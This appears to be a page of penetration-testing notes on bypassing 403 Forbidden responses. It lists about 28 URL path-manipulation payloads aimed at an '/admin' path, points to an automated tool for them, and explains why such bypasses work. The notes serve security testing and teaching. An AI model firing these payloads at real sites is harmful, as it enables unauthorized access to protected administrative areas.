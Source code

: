 ```
url.com/%2e/admin
url.com/%2e/admin/
url.com/%20/admin/%20
url.com/%20/admin/%20/
url.com/admin/..;/
url.com/admin.json
url.com/admin/.json
url.com/admin..;/
url.com/admin;/
url.com/admin%00
url.com/admin.css
url.com/admin.html
url.com/admin?id=1
url.com/admin~
url.com/admin/~
url.com/admin/°/
url.com/admin/&
url.com/admin/-
url.com/admin\/\/
url.com/admin/..%3B/
url.com/admin/;%2f..%2f..%2f
url.com/ADMIN
url.com/ADMIN/
url.com/admin/..\;/
url.com/*/admin
url.com/*/admin/
url.com/ADM+IN
url.com/ADM+IN/
```




# Tooling

(update with wikinotes...)

 As far as automated tooling goes, https://github.com/devploit/nomore403 has the most coverage in terms of the above, plus other methods (Headers ++)




# Explanations

## Introduction to 403 Bypasses

A 403 Forbidden response indicates that the server understands the request but refuses to authorize it—often due to access control rules. However, misconfigurations, flawed logic, or unexpected parsing in web servers or applications can sometimes be exploited to bypass these restrictions. This first page covers the most common and foundational URL manipulation approaches. These should be your starting point when you encounter a 403 response.
